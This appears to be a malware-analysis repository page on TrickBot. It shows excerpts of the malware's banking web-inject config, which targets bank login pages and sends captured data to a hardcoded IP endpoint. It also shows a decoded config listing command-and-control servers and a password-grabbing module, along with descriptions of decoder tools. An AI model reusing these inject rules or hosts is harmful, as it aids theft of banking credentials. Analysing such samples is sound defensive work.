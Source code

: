    Trickbot_configs + DLL Files
   
   
      <igroup>
      <dinj>
      <lm>*/Authentication/Login*</lm>
      <hl>http://162.220.162.140/response.php</hl>
      <pri>100</pri>
      <sq>2</sq>
      </dinj>
      <dinj>
      <lm>*/Accounts/AccountOverview.asp*</lm>
      <hl>http://162.220.162.140/response.php</hl>
      <pri>100</pri>
      <sq>2</sq>
      </dinj>
      </igroup>
      <igroup>
      <dinj>
      <lm>*cey-ebanking.com/CLKCCM/*</lm>
      <hl>http://162.220.162.140/response.php</hl>
      <pri>100</pri>
      <sq>2</sq>
      <ignore_mask>*.gif*</ignore_mask>
      <ignore_mask>*.jpg*</ignore_mask>
      <ignore_mask>*.png*</ignore_mask>
      <ignore_mask>*.js*</ignore_mask>
      <ignore_mask>*.css*</ignore_mask>
      <require_header>*text/html*</require_header>
      </dinj>
      </igroup>
      <igroup>
      <dinj>
      <lm>*engine/login/businesslogin*</lm>
      <hl>http://162.220.162.140/response.php</hl>
      <pri>100</pri>
      .....

   https://github.com/hasherezade/malware_analysis

   Decoders for TrickBot's elements

   trick_decoder.py - decodes TrickBot's core modules (32/64-bit bots) - from resources of the TrickBot loader executable (obsolete, works for the          first version of TrickBot)
   trick_config_decoder.py - decodes TrickBot's hardcoded configuration (from the resource) + downloaded modules and their configuration
   rick_settings_decoder.py - decodes BotKey and mcconfig from the settings file (i.e. settings.ini dropped in the TrickBot installation directory)
   make_bot_key.cpp - a keygen for BotKey (must be run on the infected machine). Compiled version: https://goo.gl/7Sf1E1


   The BotKey can be obtained in two ways:

   decoded:
   Use trick_settings_decoder.py and the settings file dropped by TrickBot.
   
   generated:
   Compile make_bot_key.cpp (or download https://goo.gl/7Sf1E1 ) and run it on the same machine, where the encrypted files were dropped.
   
   Then, you can pass the obtained key to trick_config_decoder.py.

   Example:

    ./trick_config_decoder.py --botkey 2E9EA9FE45FDBA4289F494AF959FAB1A828948E19309DD3C80AD4202728821DB --datafile Data/injectDll32
    Decoded: 1390000 bytes
    Dumped decoded to: Data/injectDll32.out
    Extracted Module to: Data/injectDll32.dll
  
   Decoding the BotKey and mcconfig

   Use trick_settings_decoder.py.

   Example:

    /trick_settings_decoder.py --file ~/settings.ini --brute
    
      

    <mcconf>
    <ver>1000499</ver>
    <gtag>tt0002</gtag>
    <servs>
    <srv>5.182.210.226:443</srv>
    <srv>82.146.62.52:443</srv>
    <srv>193.26.217.243:443</srv>
    [...]
    <srv>171.100.142.238:449</srv>
    <srv>186.232.91.240:449</srv>
    <srv>181.196.207.202:449</srv>
    </servs>
    <autorun>
    <module name="pwgrab"/>
    </autorun>
    </mcconf>
